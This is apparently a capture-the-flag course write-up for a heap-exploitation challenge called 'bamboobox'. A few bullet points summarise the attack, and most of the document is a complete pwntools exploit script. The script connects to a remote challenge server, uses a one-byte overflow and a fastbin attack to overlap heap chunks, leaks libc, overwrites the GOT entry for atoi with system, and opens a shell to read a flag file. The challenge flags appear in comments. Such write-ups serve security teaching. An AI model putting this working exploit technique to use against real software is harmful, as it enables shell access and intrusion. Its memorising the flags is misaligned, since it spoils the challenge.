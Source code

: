 # Week 6 practice
## bamboobox 1 & 2 100
* One byte overflow -> `Heap overlap`.
* Fake fd for `fastbin attack`.
* Modify data pointer of `struct item itemlist[100]` on bss.
* Leak Libc and got hijacking.
* `atoi()` -> `system`.
* `atoi(input_buf)` -> `atio('sh')` -> `system(sh)`.

```python
#!/usr/bin/env python
# -*- coding: ascii -*-
from pwn import *

# FLAG{NOOO~YOUFOUNDME!!} flag 2
# FLAG{DO_Y0U_LIKE_BAMB00??} flag 1

context.arch = 'amd64'

e , l = ELF('./bamboobox') , ELF('./libc.so.6')

host , port = 'csie.ctf.tw' , 10138

y = remote(host,port)
#y = process( './bamboobox' , env = {'LD_PRELOAD':'./libc.so.6'} )
#y = process( './bamboobox' )
#print util.proc.pidof(y)
#raw_input('>')


def add( size , data ):
    y.sendafter( 'ice:' , '2' )
    y.sendafter( 'e:' , str( size ) )
    y.sendafter( 'm:' , data )

def chg( idx , size , data ):
    y.sendafter( 'ice:' , '3' )
    y.sendafter( ':' , str( idx ) )
    y.sendafter( 'e:' , str( size ) )
    y.sendafter( 'm:' , data )

def sho():
    y.sendafter( 'ice:' , '1' )

def dle( idx ):
    y.sendafter( 'ice:' , '4' )
    y.sendafter( ':' , str( idx ) )



add( 0x71 , 'a' * 0x70 )   # 0
add( 0x200 , 'A' * 0x200 ) # 1
add( 0x200 , 'B' * 0x200 ) # 2
add( 0x200 , 'C' * 0x200 ) # 3
add( 0x200 , 'D' * 0x200 ) # 4

dle( 2 )

dle( 1 )
add( 0x208 , 'A' * 0x200 + p64( 0 ) ) # 1 # Null byte

add( 0x100 , '1' * 0x100 ) # 2
add( 0x68 , '2' * 0x60 ) # 5

dle( 2 )
dle( 3 )

add( 0x410 , 'D' ) # 2
dle( 5 )
chg( 2 , 0x400 , 'D' * 0x100 + p64( 0x0 ) + p64( 0x71 ) + p64( 0x6020c0 - 8 )  )

add( 0x68 , 'get' )
add( 0x68 , p64( e.got['__libc_start_main'] ) + 'DDDDDDDD' + p64( e.got['atoi'] ) )

sho()

y.recvuntil( '0 : ' )
l.address += u64( y.recv( 6 ).ljust( 8 , '\x00' ) ) - l.symbols['__libc_start_main']
log.success( 'libc -> %s' % hex( l.address ) )

chg( 1 , 8 , p64( l.symbols['system'] ) )

y.sendline( 'sh' )

sleep(0.7)

y.sendline( 'cat /home/`whoami`/R3alflag' )

y.interactive()
```